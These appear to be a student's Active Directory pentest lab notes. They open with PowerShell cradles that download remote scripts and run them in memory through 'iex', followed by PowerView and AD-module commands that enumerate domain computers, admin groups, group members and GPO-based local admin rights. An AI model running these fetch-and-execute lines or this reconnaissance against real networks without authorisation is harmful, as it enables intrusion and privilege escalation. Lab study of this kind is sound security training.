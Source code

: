 ### run remote scripts

```
$wr = [system.net.webrequest]::create('<uri>')
$r = $wr.getresponse()
iex ([system.io.streamreader]($r.getresponsestream())).readtoend()
```

```
iex (new-object net.webclient).downloadstring('<uri>')
iex (iwr '<uri>') // invoke-webrequest - iwr
``` 

### get computers in a domain

Powerview
```
get-netcomputer
get-netcomputer -fulldata
get-netcomputer -fulldata | where-object {$_.name -eq "dcorp-std41"}
get-netcomputer -fulldata -name "dcorp-std41"
get-netcomputer -operatingsystem "*server 2016*"
```

admodule
```
get-adcomputer -filter *
get-adcomputer -filter * | select dnshostname
get-adcomputer -identity "dcorp-std41" -properties *
```

### get groups

Powerview
```
get-netgroup
get-netgroup -domain <domain>
get-netgroup -fulldata
get-netgroup 'domain admins' -fulldata  | select member
get-netgroup "*admin*"
```

admodule
```
get-adgroup -identity 'domain admins'
get-adgroup -filter * -properties *
get-adgroup -filter 'name -like "*admin*"'
```

### get group members

Powerview
```
get-netgroupmember -groupname "domain admins"
```

### get GPO

Powerview
```
get-netgpo
get-netgpo | select displayname
get-netgpo -computername "<computer name>" | select displayname - this gives the GP applied on a particular computer
gpresult /r
get-netgrogroup - groups(which are pushed through group policy) that are part of a local group on a machine
find-gpocomputeradmin -computername <cname> - find users who are part(pushed by GP) of localgroups
find-gpolocation -username student35 -verbose - find machines where user is part(pushed by GP) of a local group
```

### ACL

Access token: contains the permissions of the process that is trying to access a domian object, i.e groups of the process owner, permissions of the process owner etc
SEcurity Descriptor: this is for the domain object - contains SID of the object owner, DACL (represents who have access to this obejct), SACL (audit policy of the object)


